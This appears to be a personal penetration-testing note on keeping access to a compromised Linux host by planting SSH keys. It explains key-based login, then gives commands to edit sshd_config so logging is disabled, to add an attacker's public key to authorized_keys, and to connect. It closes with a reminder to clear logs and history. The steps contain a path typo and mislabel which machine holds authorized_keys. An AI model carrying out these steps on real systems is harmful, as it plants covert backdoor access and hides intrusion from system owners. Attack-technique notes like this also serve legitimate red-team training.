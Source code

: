 
## General

Account manipulation using SSH keys is a way for an attacker to gain access to a system without using a password. SSH (Secure Shell) keys are used to authenticate a user to a remote system, allowing them to log in without entering a password. Instead of a password, the user presents a private key file, which is then verified against a public key that is stored on the remote system. If the keys match, the user is authenticated and granted access to the system.

An attacker who has gained access to a user's private SSH key can use it to log in to the system without knowing the user's password. This can be done by copying the private key to the attacker's own system and using it to authenticate to the remote system. If the attacker is able to do this, they will be able to log in to the system and perform actions as if they were the legitimate user. This can allow the attacker to gain unauthorized access to sensitive data or to perform actions that would not normally be allowed.


## Command

Modify /etc/ssh/sshd_config (Target Machine)
```
# Comment Elements
	# LogLevel INFO    ---> Comment this not not store the logs of the SSH
	# PasswordAuthentication yes   ---> Because we use a SSH Key to login

# Uncomment Elements
	PubkeyAuthentication yes       ---> Allow login with SSH Keys
```

Generating SSH Keys (Attacking Machine)
```
# Generate SSH Keys
ssh-keygen               ---> Generate SSH key pair

# Copy the SSH Keys
ls -al                   ---> List folder in home directory to see if .ssh folder is there
mkdir .ssh               ---> Create .ssh folder if needed
nano authorized_keys     ---> Create file for keys, and paste your id_rsa.pub value
SAVE

chmod 700 /home/USER/.ssh                    ---> Give the right permission to folder
chmod 600 /gome/USER/.ssh/authorized_keys    ---> Give the right permission to file
```

SSH Connection (Attacking Machine)
```
ssh USER@IP
```



===Dont Forget to Clear Tracks (Check [[🧹 CLEAR Logs & History]])===